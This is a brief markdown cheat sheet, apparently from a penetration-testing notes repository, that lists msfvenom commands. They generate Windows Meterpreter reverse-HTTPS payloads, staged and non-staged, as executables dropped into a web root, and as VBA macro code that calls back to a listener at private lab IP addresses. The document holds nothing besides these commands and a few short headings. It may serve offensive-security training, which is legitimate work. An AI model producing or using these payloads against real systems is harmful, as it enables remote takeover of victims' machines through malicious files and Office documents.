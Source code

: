 ## Msfvenom Payloads
Staged & Non-staged payloads

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```
Macro - VBA 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.201 LPORT=443 -f vbapplication
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.201 LPORT=443 -f vba
```

